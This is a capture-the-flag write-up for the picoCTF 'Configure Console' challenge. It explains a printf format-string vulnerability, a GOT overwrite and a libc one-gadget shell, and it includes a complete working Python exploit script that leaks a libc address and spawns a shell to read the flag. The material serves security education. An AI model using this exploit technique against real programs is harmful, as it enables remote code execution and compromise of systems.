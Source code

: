 # Configure Console - 125 Points
In order to configure the login messsage for all the users on the system, you've been given access to a configuration console. See if you can get a shell on shell2017.picoctf.com:27124. [console](https://webshell2017.picoctf.com/static/fc50965bf06c222d7b6d30aac8db296e/console) [Source](https://webshell2017.picoctf.com/static/fc50965bf06c222d7b6d30aac8db296e/config-console.c)

## Write-Up
This code was fine except for one line: `printf(message);` which prints out the message, but this is suceptible to string format. I were able to place custom format specifiers to read (and also write to stack). `%s` simply prints a string with a pointer. Hmm... that might help me to read memory... from a pointer. `%n` writes to an integer *pointer* the number of characters written. Hmm... I could control the number of characters written and that would let me write an arbirary number to a pointer --- given, I can't write a large integer, but it turns out I don't need to write large numbers. 

My strategy was to place the addresses I would need to write to and read from within the buf pointer towards the end of the buffer, and perhaps write over *some* address so that I could have the code jump to what I want it to do. However, both ASLR and W^X (you can't simulaneously write to and excute a section of memory) are enabled, so I couldn't just write any shellcode to execute.

However, I could do a return-to-libc attack. Most times, the `libc` library (the standard c library) functions have a randomized address so that I couldn't easily return to any arbitrary function I want. When a program needs to access a library function (such as `printf` or `exit`) they would first jump to a `PLT` stub code, which links the library function to this program, and places the resulting address of the library function into the `GOT` table. What I need to do is first run the printf attack to locate the base address for `libc` and then the second printf attack I will try and get shell. 

There are certain spots in a `libc` library that would directly give you shell (known as "gadgets", I used this [site](https://david942j.blogspot.com/2017/02/project-one-gadget-in-glibc.html) to help find required constraints to run execve correctly). There happens to be one location in `libc` that only requires me to set an address in stack to `NULL` in 64-bit libc. To confirm this location in the version within the shell, I first ran the command `objdump -s /lib/x86_64-linux-gnu/libc.so.6 | grep "/bin/sh"` to find the address of this sacred `/bin/sh` potentials. Then I searched for this address one by one, and found the offset to be 0x86187. This is the python script I used for this challenge (after much toying around with the code).

```python
import os, sys
from struct import pack, unpack
import shlex, subprocess
from subprocess import Popen, PIPE

buffAddr = 0

def exploit(inject, input, output):
  global buffAddr
  inject = sorted(inject, key=lambda x: x[0])
  
  exploit = ''
  addrStr = ''
  
  MAX_SPACE = 200
  
  if buffAddr == 0:
    base = '%c' * 11 + '\xfe\xfe' + '%022llx' + '%c' * (2 + MAX_SPACE / 8) # FIX THIS
    charsWritten = 41 + MAX_SPACE / 8
  else:
    base = '%c' * (14 + MAX_SPACE / 8)
    charsWritten = 18 + MAX_SPACE / 8
  
  readAddrs = 0
  blankChars = 0
  for set in inject:
    value = set[0]
    addr = set[1]
    if value != -1:
      chg = value - charsWritten
      if (chg):
        addrStr += ' ' + '\x00'*7
        exploit += '%' + str(chg) + 'c'
        charsWritten = value
        blankChars += chg
      addrStr += pack('<q', addr)
      exploit += '%n'
    else:
      addrStr += pack('<q', addr)
      exploit += '%s'
      charsWritten += 6
      readAddrs += 1
  
  
  space = len(exploit) + len(base)
  if space > MAX_SPACE:
    raise ValueError
  exploit += ' ' * (MAX_SPACE - space)
  blankChars += MAX_SPACE - space
  
  output.write('exi ' + base + '\xff'*4 + exploit + addrStr + "\n")
  
  if buffAddr == 0:
    #read for \xfe\xfe
    c = input.read(1)
    while c != "":
      if c == "\xfe":
        c = input.read(1)
        if (c == "\xfe"):
          break
      c = input.read(1)

    if c == "":
      raise ValueError
    buffAddr = int(input.read(22), 16)

  #read for \xff\xff\xff\xff marker
  c = input.read(1)
  while c != "":
    if c == "\xff":
      for i in range(3):
        c = input.read(1)
        if (c != "\xff"):
          break
      else:
        break
    c = input.read(1)
  
  if c == "": 
    raise ValueError
  
  #read values
  values = []
  for i in range(readAddrs):
    values += [unpack("<q", input.read(6) + "\x00\x00")[0]]
  
  #skip blank characters
  while (blankChars < 8192):
    input.read(blankChars)
    blankChars -= 8192
  input.read(blankChars)
  
  return values

p = Popen("./console 333", shell=True, stdout=PIPE, stdin=PIPE)

#first is value, next is address to write to.
inject1 = [[0x4009bd, 0x601258], [-1, 0x601220]]
val = exploit(inject1, p.stdout, p.stdin)

val[0] += 0x86187
high = val[0] >> 32
low = val[0] & 0xffffffff
print("Received address: " + hex(val[0]))

buffAddr -= 0x460 # Since we have it call loop function and then set_exit_message
                  # stack has been pushed down. Get address of other buffer
inject2 = [[low, 0x601258], [high, 0x60125c]]
for addr in range(buffAddr + 0x2c, buffAddr + 0x26 - 2, -2):
  inject2 += [[0xfff, addr]]


exploit(inject2, p.stdout, p.stdin)

p.stdin.write("cat flag.txt"); #can i haz flag pls
c = p.stdout.read(1)
while c != "":
  sys.stdout.write(c)
  sys.stdout.flush()
  c = p.stdout.read(1)
```

## Helpful Resources
[https://david942j.blogspot.com/2017/02/project-one-gadget-in-glibc.html](https://david942j.blogspot.com/2017/02/project-one-gadget-in-glibc.html)